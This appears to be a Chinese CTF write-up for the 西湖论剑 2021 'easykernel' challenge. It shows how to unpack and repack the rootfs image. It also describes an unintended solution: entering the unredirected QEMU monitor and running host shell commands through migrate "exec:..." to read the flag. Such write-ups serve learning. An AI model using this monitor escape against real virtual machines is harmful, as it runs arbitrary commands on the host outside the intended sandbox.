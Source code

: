 

### 西湖论剑 2021 easykernel

比赛的时候钻牛角尖只看了这题，还没做出来，，赛后复现学习一波

题目的img为一个压缩的文件系统

```
x1ng@ubuntu:~/pwn/ker/easykernel$ file rootfs.img 
rootfs.img: gzip compressed data, max compression, from Unix, original size modulo 2^32 5253120
```

将后缀改为gz后可以用gzip解压

```
mv ./rootfs.img ./rootfs.gz
gzip -d ./rootfs.gz
mkdir extracted; cd extracted
cpio -i --no-absolute-filenames -F ../rootfs
```

重打包（将start.sh中的文件系统改为rootfs.cpio）

```
gcc -o exp exp.c -static
find . | cpio -o --format=newc > ../rootfs.cpio && gzip ../rootfs.cpio && mv ../rootfs.cpio.gz ../rootfs.cpio
```



#### 非预期解

查看start.sh

```shell
#!/bin/sh

qemu-system-x86_64  \
-m 64M \
-cpu kvm64,+smep \
-kernel ./bzImage \
-initrd rootfs.cpio \
-nographic \
-s \
-append "console=ttyS0 kaslr quiet"
```

没有使用`-monitor /dev/null`将monitor重定向，可以直接进入monitor导出docker中的文件系统

在启动qemu后点击`ctrl+a`后再按`c`即可进入monitor控制台

```
migrate "exec:cp rootfs.img /tmp"
migrate "exec:cd /tmp;zcat rootfs.img | cpio -idmv 1>&2"
migrate "exec:cat /tmp/flag 1>&2"
```

> 来源
>
> [西湖论剑-WriteUp-ChaMd5](http://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247499033&idx=1&sn=40d230fb79c0ccf6ea5e0af1796423c2&chksm=e89dd5c1dfea5cd715e33e4d89e8152d366a28ea80cf1db46e74f452abf542fdb957b8ddc992&mpshare=1&scene=23&srcid=1122UZ8Q89qGdMj8DlVeEuc1&sharer_sharetime=1637553956805&sharer_shareid=7cf5a42e004b49a9f7bac747c08bd8e2#rd)
